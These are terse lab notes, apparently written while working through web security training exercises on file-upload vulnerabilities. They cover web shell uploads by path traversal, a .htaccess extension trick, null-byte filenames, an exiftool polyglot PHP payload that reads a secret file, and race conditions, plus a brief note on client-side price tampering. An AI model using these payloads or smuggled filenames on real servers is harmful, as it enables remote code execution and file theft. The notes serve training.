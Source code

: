     /home/carlos/secret
1. upload the vuln php, then intercept upload avatar request
2. `Content-Type: image/jpeg`
---
**Web shell upload via path traversal**

    /home/carlos/secret
`Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
1. upload exploit php with filename `..%2fexploit.php`
2. `GET /files/exploit.php`
---
**Web shell upload via extension blacklist bypass**

    /home/carlos/secret
1. change vulue of filename param to `.htaccess`
2. Content-Type header `text/plain`
3. Replace contents fo PHP payload with `AddType application/x-httpd-php .l33t`
4. send the request, undo all then change filename to `exploit.l33t`
5. fetch that files
---
**Web shell upload via obfuscated file extension**

    /home/carlos/secret
1. In the Content-Disposition header, change the value of the filename parameter to include a URL encoded null byte, followed by the .jpg extension: `filename="exploit.php%00.jpg"`
2. fetch the file
---

**Remote code execution via polyglot web shell upload**

    /home/carlos/secret
```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php so I crafted exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" black.jpg -o polyglot.php we will get polyglot.php file 
```
---
**Web shell upload via race condition**

    /home/carlos/secret
1. Create a PHP Web Shell that reads the “secret” file’s contents.
2. Intercept the POST File Upload Request and send it to the Intruder
3. Intercept the GET Request for the “shell.php” file
4. Make the following configurations in both Requests

----
----

# Business Logic Vuln

**Excessive trust in client-side controls**
1. observe POST /cart can do anything with it?
2. `price` param
---
